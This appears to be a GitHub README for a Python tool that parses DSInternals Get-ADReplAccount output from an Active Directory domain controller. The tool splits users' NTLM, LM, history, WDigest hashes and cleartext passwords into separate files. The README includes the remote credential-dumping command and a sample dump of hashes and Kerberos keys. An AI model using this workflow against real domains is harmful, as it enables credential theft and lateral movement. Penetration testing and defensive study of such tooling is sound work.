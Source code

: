 # dsinternalsparser.py

This tool makes easier and faster the dumping process of hashes stored in a *domain controller*.

```
-----------------------
DSInternals Parser v1.1
-----------------------

usage: dsinternalsparser.py [-h] [-o OUTPUT] [--ntlm] [--nthistory] [--lm]
                            [--lmhistory] [--cleartext] [--wdigest]
                            input_file

Parses a Get-ADReplAccount generated file to extract credentials data,
including hashes.

positional arguments:
  input_file            File to process, generated by Get-ADReplAccount of
                        DSInternals

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Prefix name for output files.
  --ntlm                Generate the file with username and current NTLM hash.
  --nthistory           Generate the file with username and history NTLM
                        hashes.
  --lm                  Generate the file with username and current LM hash.
  --lmhistory           Generate the file with username and history LM hashes.
  --cleartext           Generate the file with existent users that have
                        ClearText password.
  --wdigest             Generate the file with existent users that have
                        Wdigest password.

```


It uses the output of the **DSInternals** modules that retreives *reversibly encrypted plaintext passwords, password hashes and Kerberos keys* of all user accounts from domain controllers.

As mentioned in [DSInternals web page](https://www.dsinternals.com/en/), it is possible to retrieve hashes remotely, instead of the well known method using *vssadmin, ESEDBTOOLS and NTDSXtract*, pretty slow in some cases because of the **NTDS.dit** size, *ESEDBTOOLS* misconfigurations, etc. 

To extract the hashes remotely:

1.  Retrieve all users attributes with the **DSinternals** module *Get-ADReplAccount*, and save it to a local file.
    ```
    Get-ADReplAccount -All -NamingContext 'DC=Example,DC=com' -Server DC1 -Credential $cred >> localfile.txt
    ```
    The file generated has a format similar to the next one.
    ```
    DistinguishedName: CN=April Reagan,OU=IT,DC=Adatum,DC=com
    Sid: S-1-5-21-3180365339-800773672-3767752645-1375
    Guid: 124ae098-699b-4450-a47a-314a29cc90ea
    SamAccountName: April
    SamAccountType: User
    UserPrincipalName: April@adatum.com
    PrimaryGroupId: 513
    SidHistory: 
    Enabled: True
    Deleted: False
    LastLogon: 
    DisplayName: April Reagan
    GivenName: April
    Surname: Reagan
    Description: 
    NTHash: 92937945b518814341de3f726500d4ff
    LMHash: 727e3576618fa1754a3b108f3fa6cb6d
    NTHashHistory: 
      Hash 01: 92937945b518814341de3f726500d4ff
      Hash 02: 1d3da193d2f45911a6f0fa940b9fb32f
      Hash 03: 402bc59d8a00641b7f386e78596340f4
    LMHashHistory: 
      Hash 01: 727e3576618fa1754a3b108f3fa6cb6d
      Hash 02: 5a5503d0e85f58abaad3b435b51404ee
      Hash 03: f9393d97e7a1873caad3b435b51404ee
    SupplementalCredentials:
      ClearText: Pa$$w0rd
      Kerberos:
        Credentials:
          DES_CBC_MD5
            Key: 76fe3b5bda911a40
        OldCredentials:
          DES_CBC_MD5
            Key: 7f8c4f38e0ea0b80
        Salt: ADATUM.COMApril
        Flags: 0
      KerberosNew:
        Credentials:
          AES256_CTS_HMAC_SHA1_96
            Key: 3a3b6a89bb82d112db5ef68f6db5d1afc2b806df61dcd85e3eacf3b85ee382d8
            Iterations: 4096
          AES128_CTS_HMAC_SHA1_96
            Key: a72c8bc96c4a6f03244f0b0067a1e440
            Iterations: 4096
          DES_CBC_MD5
            Key: 76fe3b5bda911a40
            Iterations: 4096
        OldCredentials:
          AES256_CTS_HMAC_SHA1_96
            Key: 14e46244a59a37cd8aa7c1fe61896441c7d065fafe4874191e69c1fe28856810
            Iterations: 4096
          AES128_CTS_HMAC_SHA1_96
            Key: 034b512ec64286dec951d6aff8d81fa8
            Iterations: 4096
          DES_CBC_MD5
            Key: 7f8c4f38e0ea0b80
            Iterations: 4096
        OlderCredentials:
          AES256_CTS_HMAC_SHA1_96
            Key: 2387ca8f936c8c154996809af8fee7c47fe4b9b5dd84d051fc43a9289bbaa3ab
            Iterations: 4096
          AES128_CTS_HMAC_SHA1_96
            Key: 29d536ec057f9063747161429b81f056
            Iterations: 4096
          DES_CBC_MD5
            Key: 58f1cbe6e50e1f83
            Iterations: 4096
        ServiceCredentials:
        Salt: ADATUM.COMApril
        DefaultIterationCount: 4096
        Flags: 0
      WDigest:
        Hash 01: c3d012ab1101eb8f51b483fb4c5f8a7e
        Hash 02: c993da396914645b356ae7816251fcb1
        Hash 03: 6b58530cab34de91189a603e22c2be15
        Hash 04: c3d012ab1101eb8f51b483fb4c5f8a7e
        Hash 05: 5a762cf59fa31023dcba1ebd4725b443
        Hash 06: c78bac91c0ba25cae5d44460fd65a73b
        Hash 07: 59d73cea16afd1aac6bf8acfa2768621
        Hash 08: d2be383db9469a39736d9e2136054131
        Hash 09: 079de9f4d94d97a80f1726497dfd1cc2
        Hash 10: 85dbe1549d5fbfcc91f7fe5ac5910f52
        Hash 11: 961a36bded5535b8fc15b4b8e6c48b93
        Hash 12: 6ac8a60d83e9ae67c2097db716a6af17
        Hash 13: e899e577d5f81ef5288ab67de07fad9a
        Hash 14: 135452ab86d40c3d47ca849646d5e176
        Hash 15: a84c367eaa334d0a4cb98e36da011e0f
        Hash 16: 61a458eb70440b1a92639452f0c2c948
        Hash 17: 238f4059776c3575be534afb46be4ccf
        Hash 18: 03ddf370064c544e9c6dbb6ccbf8f4ac
        Hash 19: 354dd6c77ccf35f63e48cd5af6473ccf
        Hash 20: 5f9800d734ebe9fb588def6aaafc40b7
        Hash 21: 59aab99ebcddcbf13b96d75bb7a731e3
        Hash 22: f1685383b0c131035ae264ee5bd24a8d
        Hash 23: 3119e42886b01cad00347e72d0cee594
        Hash 24: ebef7f2c730e17ded8cba1ed20122602
        Hash 25: 7d99673c9895e0b9c484e430578ee78e
        Hash 26: e1e20982753c6a1140c1a8241b23b9ea
        Hash 27: e5ec1c63e0e549e49cda218bc3752051
        Hash 28: 26f2d85f7513d73dd93ab3afd2d90cf6
        Hash 29: 84010d657e6b58ce233fae2bd7644222
    ```
2. Parse the localfile with dsinternaslparser.py
    ```
    ./dsinternalsparser.py -o dump localfile.txt
    ```
3. After execution, if no options are given, **dsinternalsparser.py** creates 6 files.
    * **NTLM File** (*dump_ntlm.txt*): Contains username and current NTLM Hash.
    * **NTLM History File** (*dump_ntlm_history.txt*): Contains username and NTLM History Hashes.
    * **LM File** (*dump_lm.txt*): Contains username and current LM Hash.
    * **Cleartext File** (*dump_cleartext.txt*): Contains username and Cleartext password, if exists.
    * **NTLM History File** (*dump_wdigest.txt*): Contains username and WDigest history Hashes.
  
  
For more information:

* [Retrieving Active Directory Passwords Remotely](https://www.dsinternals.com/en/retrieving-active-directory-passwords-remotely/)


## Installation
### Requirements
* Python 2.7 environment
* DSInternals output file generated with Get-ADReplAccount or Get-ADDBAccount.
### Downloading
To download the script, simply download and execute it on a terminal.
```
wget https://raw.githubusercontent.com/r4wd3r/ADPWN/master/dsinternalsparser/dsinternalsparser.py
chmod 755 dsinternalsparser.py
```

